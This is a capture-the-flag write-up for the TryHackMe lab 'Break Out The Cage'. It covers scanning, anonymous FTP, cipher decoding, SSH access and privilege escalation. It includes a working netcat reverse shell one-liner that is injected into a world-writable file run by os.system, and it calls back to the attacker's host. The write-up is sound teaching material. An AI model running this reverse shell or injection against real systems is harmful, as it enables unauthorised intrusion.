

# Break Out The Cage

Though [this room](https://tryhackme.com/room/breakoutthecage1) has been categorized as beginner, I found it to be a bit tricky. But to be honest, there's a lot to learn from this room. This room involves abusing SSH key, spectrogram, decoding and obviously privilege escalation.


### Initial Foothold

1.  ##### What is Weston's password?

The first few things that we can do once the machine is deployed are access the IP address, run a directory bruteforce attack and an nmap scan.

First, we can check the webpage:


We can check the content of the webpage and it's source-code but we don't find anything useful over there.

The next thing that we can check is the nmap scan result:

```
tester@kali:~/Downloads/cage$ nmap -A -T4 -p-10000 10.10.191.75                                                                                                 130 ⨯
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-02 23:01 IST
Nmap scan report for 10.10.191.75
Host is up (0.14s latency).
Not shown: 9997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.91.135
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.98 seconds
```

Here, we can see that ftp port is open and we can login anonymously as well. So, the next thing that we can do is access the FTP as anonymous.

```
tester@kali:~/Downloads/cage$ ftp 10.10.191.75
Connected to 10.10.191.75.
220 (vsFTPd 3.0.3)
Name (10.10.191.75:tester): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
226 Directory send OK.
ftp> mget dad_tasks
mget dad_tasks? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dad_tasks (396 bytes).
226 Transfer complete.
396 bytes received in 0.07 secs (5.2927 kB/s)
ftp> cat dad_tasks 
?Invalid command
ftp> exit
221 Goodbye.
tester@kali:~/Downloads/cage$ cat dad_tasks 
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds
```

We can see that there is a file named `dad_tasks` and on printing it's content it can be seen that it encoded which appears to be Base64 encoding. We can go to [CyberChef](https://gchq.github.io/CyberChef/) and decode it. On decoding the string from Base64 we get:

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

It looks like this data is encoded using simple rotation, so we try ROT13 decoding on it but we don't get any proper result. We can try different ROT values from 1 to 25 but we can't find any meaningful data in any of them. If it is not a simple letter substitution cipher then we can think that it might be encoded using Vigenere Cipher but for that we need a key using which we can decode the data. But as of now, we don't know about any such value that can be used as the key. So, for now we can move on and check the directory bruteforce attack result.

```
tester@kali:~/Downloads/cage$ gobuster dir -u http://10.10.191.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.191.75
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/02 23:39:51 Starting gobuster
===============================================================
/images (Status: 301)
/html (Status: 301)
/scripts (Status: 301)
/contracts (Status: 301)
/auditions (Status: 301)
/server-status (Status: 403)
[ERROR] 2020/09/03 00:11:05 [!] Get http://10.10.191.75/93309: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/03 00:11:53 [!] Get http://10.10.191.75/106273: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/03 00:11:53 [!] Get http://10.10.191.75/124306: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/03 00:12:13 [!] Get http://10.10.191.75/Pekuja: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/03 00:12:30 [!] Get http://10.10.191.75/76239: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/03 00:35:39 [!] Get http://10.10.191.75/viewRelease: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
===============================================================
2020/09/03 00:39:22 Finished
===============================================================
```

We can see that multiple directories have been detected which we can explore one by one. From all these directories, in the `/auditions` directory we can see an mp3 file. So, we can download it and check it for spectrogram using audacity.



Here, we can see a string which does not make any sense as it is but we can try to decipher the Base64 decoded data.

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

And we get the password. Now, as this file was stored by Wetson (Cage's son), we can assume that this is his password. We can confirm this by submitting this as the answer to the first question.

2. ##### What's the user flag?

We can now try to get SSH access as wetson as we know his password.

```
tester@kali:~/Downloads/cage$ ssh weston@10.10.191.75
The authenticity of host '10.10.191.75 (10.10.191.75)' can't be established.
ECDSA key fingerprint is SHA256:5SfBwCWS7eOa++Pxtlamyng8cPcCWV3yaRPL2zXFcYg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.191.75' (ECDSA) to the list of known hosts.
weston@10.10.191.75's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Sep  2 18:37:20 UTC 2020

  System load:  0.0                Processes:           90
  Usage of /:   20.3% of 19.56GB   Users logged in:     0
  Memory usage: 32%                IP address for eth0: 10.10.191.75
  Swap usage:   0%


39 packages can be updated.
0 updates are security updates.


         __________
        /\____;;___\
       | /         /
       `. ())oo() .
        |\(%()*^^()^\
       %| |-%-------|
      % \ | %  ))   |
      %  \|%________|
       %%%%
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1
weston@national-treasure:~$ ls
weston@national-treasure:~$ ls -la
total 16
drwxr-xr-x 4 weston weston 4096 May 26 08:35 .
drwxr-xr-x 4 root   root   4096 May 26 07:49 ..
lrwxrwxrwx 1 weston weston    9 May 26 07:53 .bash_history -> /dev/null
drwx------ 2 weston weston 4096 May 26 08:35 .cache
drwx------ 3 weston weston 4096 May 26 08:35 .gnupg
```

We do get access to the machine as wetson but we don't find the `user.txt` file, which means this is not the account we are looking for. We can go t0 `/home` and see the other users on the machine.

```
weston@national-treasure:~$ cd /home
weston@national-treasure:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 May 26 07:49 .
drwxr-xr-x 24 root   root   4096 May 26 07:51 ..
drwx------  7 cage   cage   4096 May 26 21:34 cage
drwxr-xr-x  4 weston weston 4096 May 26 08:35 weston
```

Here, we can see that there is another account as well that belongs to `cage`. On trying to access cage's directory, the permission gets denied. So, we can look for some files on the system that are owned by cage but we can access them. This can be done as:

```
weston@national-treasure:/home$ find / -user cage 2> /dev/null
/home/cage
/opt/.dads_scripts
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes
```

The files in the directory `/opt/.dads_scripts` look a bit odd. On analyzing the `spread_the_quotes.py` file:

```
weston@national-treasure:/opt/.dads_scripts$ cat spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

We can see that it reads the `.quotes` file and selects a random line from it. Which is then displayed to all the users via the system command `wall`.  

On checking the permissions of the `.quotes` file, we can see that others have the permission to read and write to the file. So, we can modify this file and add a bash reverse shell payload to it which would get executed by `os.system()` in the `spread_the_quotes.py` script as cage. With this, we will be able to access the machine as cage.

```
weston@national-treasure:/opt/.dads_scripts/.files$ echo "Test; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.91.135 4242 >/tmp/f" > .quotes 
```

Along with this, we need to start a listener on our local machine using the command `nc -nvlp 4242`

Now, whenever the script would run, it will print `Test` on wetson's shell and we will get a reverse shell on our listener as cage.

```
tester@kali:~/Downloads$ nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.191.75] 58118
/bin/sh: 0: can't access tty; job control turned off
$ whoami
cage
$ pwd
/home/cage
$ ls -la
total 56
drwx------ 7 cage cage 4096 May 26 21:34 .
drwxr-xr-x 4 root root 4096 May 26 07:49 ..
lrwxrwxrwx 1 cage cage    9 May 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 cage cage  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cage cage 3771 Apr  4  2018 .bashrc
drwx------ 2 cage cage 4096 May 25 23:20 .cache
drwxrwxr-x 2 cage cage 4096 May 25 13:00 email_backup
drwx------ 3 cage cage 4096 May 25 23:20 .gnupg
drwxrwxr-x 3 cage cage 4096 May 25 23:40 .local
-rw-r--r-- 1 cage cage  807 Apr  4  2018 .profile
-rw-rw-r-- 1 cage cage   66 May 25 23:40 .selected_editor
drwx------ 2 cage cage 4096 May 26 07:33 .ssh
-rw-r--r-- 1 cage cage    0 May 25 23:20 .sudo_as_admin_successful
-rw-rw-r-- 1 cage cage  230 May 26 08:01 Super_Duper_Checklist
-rw------- 1 cage cage 6761 May 26 21:34 .viminfo
```

We do get our shell as cage on our listener but we can't see the `user.txt`. Though we can check all the other files that we have access to. We can see a file named `Super_Duper_Checklist` in cage's directory, which we can check.

```
$ cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{********************}
```

And we got the user flag which we can submit as the answer to the second question.

### Privilege Escalation

3. ##### What's the root flag?

Now that we have the user flag, we need to move on to get the root flag for which we need to escalate our privileges. On browsing cage's file we can find a file named `email_3` in the `email_backup` directory which contains a weird string.

```
$ cat email_3
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage
```

From past experience in the same room, we can assume that again Vigenere's cipher might be used over here. But again the issue here is we don't know about the key. We can try different rotations as well but we don't get any meaningful result which confirms that again this a case of Vigenere's cipher. Now, if we read the line immediately after the cipher string, it gives a hint that the guy was pretty much obsessed with cage's `face`. So, we can try to use the string `face` as the key. 


And now, we have the root's password as well. We won't be able to switch user from the reverse shell, so we need to go back the wetson's shell and from there we can switch user to root and read the root flag.

```
weston@national-treasure:/opt/.dads_scripts/.files$ su 
Password: 
root@national-treasure:/opt/.dads_scripts/.files# cd /root/
root@national-treasure:~# ls -l
total 4
drwxr-xr-x 2 root root 4096 May 25 19:25 email_backup
```

Again, there is no `root.txt`, which means the flag must be in the directory `email_backup`.

```
root@national-treasure:~/email_backup# cat email_2
From - master@ActorsGuild.com
To - SeanArcher@BigManAgents.com

Dear Sean

I'm very pleased to here that Sean, you are a good disciple. Your power over him has become
strong... so strong that I feel the power to promote you from disciple to crony. I hope you
don't abuse your new found strength. To ascend yourself to this level please use this code:

THM{************************}

Thank you

Sean Archer
```

With this, we get the root flag as well and have completed the room!

## Some Key Points to Take Away

1. If any of the simple substitution rotation ciphers don't work and you are sure that it is a case of cipher. Then start looking for other cipher methods such as Vigenere's Cipher.
2. When need to perform horizontal escalation, look for files owned by other users that you can access.

### Links Referred

1. TryHackMe-Break Out The Cage: https://tryhackme.com/room/breakoutthecage1
2. CyberChef: https://gchq.github.io/CyberChef/